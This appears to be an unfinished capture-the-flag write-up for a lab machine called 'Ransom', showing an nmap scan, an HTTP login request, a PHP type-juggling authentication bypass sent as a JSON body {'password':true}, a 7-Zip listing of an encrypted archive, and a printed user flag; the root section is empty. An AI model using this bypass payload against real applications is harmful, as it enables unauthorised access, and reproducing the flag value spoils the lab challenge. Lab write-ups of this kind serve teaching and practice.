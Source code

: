 # Ransom

# Enumeration

````
# nmap -sV --top-ports 100 10.10.11.153 -oA nmap-10.10.11.153-sV
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-17 06:13 EDT
Nmap scan report for 10.10.11.153
Host is up (0.15s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
````

The application sends a GET request to /api/login?password=<passwd> to login in the application.

````http
GET /api/login?password=blah HTTP/1.1
Host: ransom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://ransom.htb/login
Cookie: XSRF-TOKEN=eyJpdiI6Im9zRXJmTDJMbG1EZW1iT0IxcG5tV2c9PSIsInZhbHVlIjoiU3phYktmZTA3YW9jN0dITmZzTGJ3SFp4d1hONjNlZFhPdVNMNmI2MTF6elkvbSs3bllVUHQwMEYwUE9HN1l4VXpnZjhPZ0IycGlMUlk0VmN6YWR2N243RjJmQ0YxZW5JZi82dW5hbk16WVlSQWhnNXE2djREaERmd1FxLzZneS8iLCJtYWMiOiI5ZmIxYjhmMmFhOWNlMThhNjAxNTQ4NzIxYmZmZGViNGMwMDYxNTdhOGNhY2UxNDVhNzA1OGM0N2ZjYWFkNTY1IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlcrQ1lmQXJYa3NNL3dOejVDTW9BVVE9PSIsInZhbHVlIjoidlJ3YmJGY241TmlibUlPVjFPOWlUelRUMWE4QVVVWGRhZlhKZnR4QXNTcUg3UDNoRWZNNGVKOGpCbnJUSFBOUy8rZk1JOHBCVEVpbkZHa3Q4bWV1K2tvUUI5M2FMTTFSTTNabjVuaE5VdDEvRUcvMHBPdUVQK0JYZ0luREtCMkgiLCJtYWMiOiJmNTAzNjE2YjNhYTgxODY1ZTVjMTc0M2ExMDA5ZTA5MWNhZGNhODc5M2JhOGFmMjk0YzE1MzI5NDA5YzFjNTVmIiwidGFnIjoiIn0%3D


````

  


  
# User
  
There is a [Type Juggling == vs ===](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) vulnerability in the application that can be exploited.

The application allows GET and HEAD method but also allows JSON on body, changing the password to TRUE (or 0) would make the internal comparision on php match.

````http
GET /api/login HTTP/1.1
Host: ransom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://ransom.htb/login
Cookie: XSRF-TOKEN=eyJpdiI6Im9zRXJmTDJMbG1EZW1iT0IxcG5tV2c9PSIsInZhbHVlIjoiU3phYktmZTA3YW9jN0dITmZzTGJ3SFp4d1hONjNlZFhPdVNMNmI2MTF6elkvbSs3bllVUHQwMEYwUE9HN1l4VXpnZjhPZ0IycGlMUlk0VmN6YWR2N243RjJmQ0YxZW5JZi82dW5hbk16WVlSQWhnNXE2djREaERmd1FxLzZneS8iLCJtYWMiOiI5ZmIxYjhmMmFhOWNlMThhNjAxNTQ4NzIxYmZmZGViNGMwMDYxNTdhOGNhY2UxNDVhNzA1OGM0N2ZjYWFkNTY1IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlcrQ1lmQXJYa3NNL3dOejVDTW9BVVE9PSIsInZhbHVlIjoidlJ3YmJGY241TmlibUlPVjFPOWlUelRUMWE4QVVVWGRhZlhKZnR4QXNTcUg3UDNoRWZNNGVKOGpCbnJUSFBOUy8rZk1JOHBCVEVpbkZHa3Q4bWV1K2tvUUI5M2FMTTFSTTNabjVuaE5VdDEvRUcvMHBPdUVQK0JYZ0luREtCMkgiLCJtYWMiOiJmNTAzNjE2YjNhYTgxODY1ZTVjMTc0M2ExMDA5ZTA5MWNhZGNhODc5M2JhOGFmMjk0YzE1MzI5NDA5YzFjNTVmIiwidGFnIjoiIn0%3D
Content-Type: application/json
Content-Length: 18

{ "password":true}
````

The web page has the first flag
http://ransom.htb/user.txt

And also has a zip archive (http://ransom.htb/uploaded-file-3422.zip)

7zip/7-zip has a technical mode to show more information from a file that can be used to discover the criptography used to cipher the archive.

````
# 7z l -slt uploaded-file-3422.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,1 CPU Intel(R) Core(TM) i7-8750H CPU @ 2.20GHz (906EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 7735 bytes (8 KiB)

Listing archive: uploaded-file-3422.zip

--
Path = uploaded-file-3422.zip
Type = zip
Physical Size = 7735

----------
Path = .bash_logout
Folder = -
Size = 220
Packed Size = 170
Modified = 2020-02-25 08:03:22
Created = 
Accessed = 
Attributes = _ -rw-r--r--
Encrypted = +
Comment = 
CRC = 6CE3189B
Method = ZipCrypto Deflate
Host OS = Unix
Version = 20
Volume Index = 0
````
  
# Root

# Secrets
  
  * FLAG_USER = 34b36fdef7651ea726d6dd00d83678cb
  * FLAG_ROOT = 
  
https://0xdf.gitlab.io/2022/03/15/htb-ransom.html

